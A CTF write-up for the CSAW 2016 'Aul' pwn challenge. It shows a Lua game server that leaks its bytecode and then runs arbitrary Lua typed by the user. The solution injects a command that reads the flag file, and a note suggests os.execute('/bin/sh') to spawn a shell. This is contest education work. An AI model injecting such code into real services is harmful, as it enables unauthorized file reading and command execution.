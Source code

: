 ```yaml
---
title: 'CSAW CTF 2016: Aul (pwn 100)'
tags:
  - Lua
  - pwn
  - CSAW CTF
categories:
  - writeup
date: 2016-09-20 15:31:01
---
```



## Description

> Wow, this looks like an aul-ful game. I think there is a flag around here somewhere...
> nc pwn.chal.csaw.io 8001

## Exploit

After connecting to the server, it display some sort of game. The interesting thing is that when we type `help`, it will print some binary-like data. 

{% codeblock lang:plain line_number:false %}
let's play a game
| 0 0 0 0 0 0 0 0 |
| 0 1 0 0 0 0 4 0 |
| 0 3 2 2 4 1 4 4 |
| 0 3 2 3 2 3 4 3 |
| 4 b 2 2 4 4 3 4 |
| 3 2 4 4 1 1 2 2 |
| 3 3 c d 3 3 2 3 |
| 3 2 1 4 4 a 2 4 |
help
help
LuaS�

xV(w@�,��,�,���,��,�,���,��,�,���CA�$@@C$@�&�
                                              make_boardpopulate_boardboard_tostringfallrotatecrush
                                                                                                   rotate_lefreadAllhelpquitexit	run_stepgame
writelinelet's play a game


K@J��@@��
         AF�@
setmetatable�J��@�f&�size
            __tostringboard_tostring"
                                     .�@���A@�@@$Ab@�����@RA, @��@�F�A���AB���Ad������
@i���A�����h��@d���C�BC���
��g��F�C�ef&�sizemath
F@G@�������d���F��@�&&�mathrandom$/!K�@�@�@A�����BN�@��(B��A�������݁'�BA�A@�������$B�����@A���AA���&�
size| tableinsert |concat
1D
G@�@@��������N��(���@�$B'���&�size
�OCMÂGC�@'��@��&�size            make_board5EN���@�@������������_@@�����������������N����&���������FSG@�@@����������A������΁��N����(B�C�
                       make_boardUg
$G@�@@��������A�A���@�N����(A����'��OA�N����(A�B�G�GB�@@����@����'��&size
                                                                           make_boardabcdik	F@�@�@��ef&�rotatemr
                                                                                                                    F@G@����d���������@��@�&�ioopenrbread*allclosetx@@@F�@��d��$��F@A��@ǀ��d@&�stringsureadAll
                                     server.luac	writerawlen{@@�&�quit�-F@d���@@��@�����@���A�@����@@�@A�������@����@@�@A�������@����B�@���������B@������&�
                                                                                                                                                                   	readlinestringlenexitfind	functionprintloareturn ��%@F@@��d$�F�@�A����@��d@F�A�d���A�@@�_�@���@BƀBAB@$�������@���@���&�
                                                                                                                              populate_board
                                                                                                                                            make_board
writelineboard_tostring
	run_stepquitfallcrushEDidn't understand. Type 'rotate', 'rotate_left', 'exit', or 'help'.
Didn't understand. Type 'rotate', 'rotate_left', 'exit', or 'help'.
{% endcodeblock %}

According to its first few bytes `Lua`, I suppose it is Lua bytecode. However, when I try to decompile or execute the binary, it seems to be corrupted. [This writeup](https://github.com/ret2libc/ctfs/tree/master/csaw2016/aul) has described how to fix the binary, but during the contest, I just tried entering some function name shown in the binary like `game` and found that the function will be called. Furthermore, I found that it can actually execute arbitrary Lua function like `io.write('hi')`. I then entering `io.write(io.open("flag", "r"):read("*all"))` to read and print the flag.

{% codeblock lang:plain line_number:false %}
let's play a game
| 0 0 0 0 0 0 0 0 |
| 0 1 0 0 0 0 4 0 |
| 0 3 2 2 4 1 4 4 |
| 0 3 2 3 2 3 4 3 |
| 4 b 2 2 4 4 3 4 |
| 3 2 4 4 1 1 2 2 |
| 3 3 c d 3 3 2 3 |
| 3 2 1 4 4 a 2 4 |
io.write(io.open("flag", "r"):read("*all"))
io.write(io.open("flag", "r"):read("*all"))
flag{we_need_a_real_flag_for_this_chal}
{% endcodeblock %}

Yes, I luckily guess the filename `flag`.

> Flag: `flag{we_need_a_real_flag_for_this_chal}`

## Note

Instead of guessing the filename of the flag, using `os.execute("/bin/sh")` can get the shell reliably ([reference](https://galhacktictrendsetters.wordpress.com/2016/09/20/csaw-quals-2016-aul/)).
